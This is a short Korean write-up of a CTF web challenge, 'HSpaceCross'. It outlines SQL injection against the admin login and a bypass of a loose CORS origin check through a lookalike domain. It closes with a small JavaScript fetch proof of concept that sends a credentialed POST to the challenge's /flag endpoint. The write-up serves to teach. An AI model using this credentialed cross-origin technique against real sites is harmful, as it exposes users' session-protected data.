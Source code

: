 # 🛡️ HSPACE CTF - HSpaceCross

- 출제자 - 오경석

---

## 🧩 문제 주요 내용

- Flask 기반 웹 서버
- 사용자 인증 (`/login`)과 비공개 플래그 제공 (`/flag`) 기능 존재
- 데이터는 SQLite로 저장 (`users.db`)
- `admin_session_token` 쿠키가 있어야 플래그를 볼 수 있음
- CORS 설정이 특정 도메인(`hspace.com`)에만 허용됨

---

## 💉 문제 풀이

Step 1) admin 로그인을 위해 sql injection 시도

![image.png](image.png)

Step 2) 관리자 로그인 성공 시 세션 값 확인

![image.png](image%201.png)

Step 3) CORS 정책을 우회하기 위해 [hspace.com](http://hspace.com) 이 포함된 도메인으로 설정

![image.png](image%202.png)

Step 4) [gyeong0hspace.com](http://gyeong.hspace.com) url을 통해 접속 후 poc 코드 개발자 도구를 통해 실행

```jsx
    fetch("http://gyeong-hspace.com:5000/flag", {
      method: "POST",
      credentials: "include",
      headers: {
        "Content-Type": "application/json"
      },
      body: JSON.stringify({})
    })
    .then(res => res.text())
    .then(data => {
      console.log("FLAG:", data);
      document.body.innerHTML = "<h1>FLAG: " + data + "</h1>";
    });
```

Step 5) 플래그 획득 가능 확인

![image.png](image%203.png)